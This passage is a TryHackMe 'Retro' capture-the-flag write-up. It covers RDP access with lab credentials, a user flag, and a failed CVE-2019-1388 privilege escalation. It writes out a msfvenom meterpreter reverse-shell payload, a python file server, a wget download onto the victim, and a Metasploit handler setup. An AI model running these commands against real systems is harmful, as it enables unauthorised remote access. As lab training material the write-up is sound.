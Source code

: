 ```powershell
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.50.105 /u:Wade /p:'parzival'
```
On the desktop we found the flag.
> [!check]- user.txt
> 3b99fbdc6d430bfb51c72c651a261927
# Privilege Escalation
## CVE-2019-1388 (FAIL)
If we open chrome, we see a CVE page saved as a bookmark
![Pasted image 20240919170922.png|400](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240919170922.png)
We search information and try to exploit it
A file `hhupd.exe` it is  on the recycle bin and we restore it to the desktop
Right click on it and run  as administrator. and Follow the steps.
![Pasted image 20240918131244.png|300](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240918131244.png)
![Pasted image 20240918131326.png|300](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240918131326.png)
![Pasted image 20240918131357.png|300](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240918131357.png)
![Pasted image 20240918131436.png|300](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240918131436.png)
On this point we have a intended bug acording to some sources, so in this point the exploit can't continue and we well try another vector.
## Revershell like Wade (FAIL)
Before we got a low privileges shell like the user `iis apppool\retro`
Now we will get a shell like Wade with higher privs.
Create the `exe` file 
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.6.2.59 LPORT=4848 -f exe > rev_shell.exe
```

On the attacker machine mount a python server to pass the file
```python
python3 -m http.server 4545
```
On the victim machine (rdp session). Open powershell and execute to  get the file
```shell
wget http://10.6.2.59:4545/rev_shell.exe -O rev_shell.exe
```
![Pasted image 20240919172722.png](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240919172722.png)

On the attacker machine again open `msfconsole`
and set the handler
![Pasted image 20240919172912.png|600](/img/user/Write-ups/TryHackMe/attachments/Pasted%20image%2020240919172912.png)
And set the payload
```shell
set payload windows/meterpreter/reverse_tcp
```
And run `run`
